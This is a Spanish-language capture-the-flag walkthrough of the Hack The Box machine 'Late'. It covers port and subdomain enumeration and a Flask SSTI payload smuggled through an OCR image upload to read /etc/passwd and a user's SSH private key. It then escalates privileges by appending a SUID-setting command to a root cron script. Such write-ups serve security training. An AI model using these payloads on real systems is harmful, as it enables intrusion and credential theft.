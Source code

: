 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: ""
date: 2023-11-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-late/late_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - subdomain enumeration

---
```


# PortScan
________
```
# Nmap 7.93 scan initiated Mon Nov 27 17:44:00 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 27 17:44:10 2023 -- 1 IP address (1 host up) scanned in 9.80 seconds
```

# WebSite
____

![](/assets/images/htb-writeup-late/Pasted image 20231127182726.png)

Enumerando posibles directorios & viendo el código fuente no encontré nada interesante, así que decidí enumerar posibles **sub-dominios** para éste dominio.

```bash
gobuster vhost -u http://late.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -k
===============================================================
de
===============================================================
Found: images.late.htb (Status: 200) [Size: 2187]
```

descubriendo así un sub-dominio "**images.late.htb**", hacemos virtual hosting metiendo éste en el "**/etc/hosts**", una vez tengamos esto podemos ingresar al sub-dominio, encontrándonos con ésto.

![](/assets/images/htb-writeup-late/Pasted image 20231127183209.png)

Viendo qué podemos convertir imágenes a texto, esto con el framework "**Flask**" qué está escrito en python.

Creamos una imagen con un texto básico ésto con la ayuda de "**libreoffice**" y "**scrot**" para tomar la captura.

1. Abrimos el "**libreoffice**" y ponemos un texto para tomarle captura.
![](/assets/images/htb-writeup-late/Pasted image 20231127183421.png)

2. Corremos el "**scrot**" con un tiempo de espera para que nos de chance a volver al **"libreoffice"** y tomar la captura.
```bash
sleep 3; scrot -s capture.png
```

y tendríamos la captura del texto en "**libreoffice**" en capture.png.
![](/assets/images/htb-writeup-late/Pasted image 20231127183606.png)

Procedemos a subir ésta imagen a ver sí esta fuente logra interpretarla correctamente.

![](/assets/images/htb-writeup-late/Pasted image 20231127183908.png)

Vemos lo está interpretando, como está corriendo un **Flask**, se me ocurre probar un **SSTI** con una operación básica de multiplicación a ver si logra interpretarlo...

1. Ponemos una operación básica en el "**libreoffice**"
![](/assets/images/htb-writeup-late/Pasted image 20231127184101.png)

2. Tomamos la captura con "scrot"
```bash
sleep 3; scrot -s capture.png
```


Una vez con la captura, la subimos para ver los resultados...

![](/assets/images/htb-writeup-late/Pasted image 20231127184356.png)
Estamos logrando llevar a cabo el **SSTI**, así que se me ocurre aprovecharnos de esto para llevar a cabo una lectura de archivos de la máquina y ver el "**/etc/passwd**".
![](/assets/images/htb-writeup-late/Pasted image 20231127193325.png)
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Así que con "**scrot**" tomo una captura de ésto y la subo, viendo como resultado el contenido del "**/etc/passwd**".

como vemos en el "**result.txt"**
![](/assets/images/htb-writeup-late/Pasted image 20231127194153.png)

Viendo un usuario válido del sistema, por lo qué se me ocurre ver si está la clave privada **SSH** expuesta para éste usuario, en **"/home/svc_acc/.ssh/id_rsa"**
![](/assets/images/htb-writeup-late/Pasted image 20231127195153.png)

vemos qué está expuesta, así que procedemos a conectarnos con **SSH** desde nuestra máquina, pero primero debemos quitarles las etiquetas "**< p >**"
para posterior a ello conectarnos tal que así:
```bash
mv results.txt id_rsa
ssh -i id_rsa svc_acc@10.10.11.156

```

![](/assets/images/htb-writeup-late/Pasted image 20231127195853.png)


# Escalada de Privilegios
___

con el binario de [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), no los enviamos a la máquina víctima desde un servidor python y le damos permisos de ejecución en la máquina víctima.
![](/assets/images/htb-writeup-late/Pasted image 20231127202232.png)

Vemos que **root**, está asignándole un atributo -**"a"** al script "**ssh-alert.sh**".

![](/assets/images/htb-writeup-late/Pasted image 20231127202450.png)

Vemos en los permisos que podemos editarlo, se me ocurre de primera darle permisos **SUID** a la bash ya que ROOT lo ejecuta.. pero nos deniega el permisos, esto por el atributo **"-a"**, que es "**append-only**", es decir, sólo podemos modificar el archivo metiéndole contenido desde append, es decir **>>**, sabiendo ésto.

1. en "**tmp**", creamos un archivo con contenido dentro que de permisos SUID a la Bash.
```
nano privesc.txt
```
2. Contenido del "**privesc.txt**"
```bash
chmod u+s /bin/bash
```

3. metemos el contenido de "privesc.txt" a "ssh-alert.sh":
```bash
cat privesc.txt >> /usr/local/sbin/ssh-alert.sh
```

4. Esperamos a qué se vuelva ejecutar la tarea CRON y ya la bash tendría SUID.
![](/assets/images/htb-writeup-late/Pasted image 20231127203036.png)


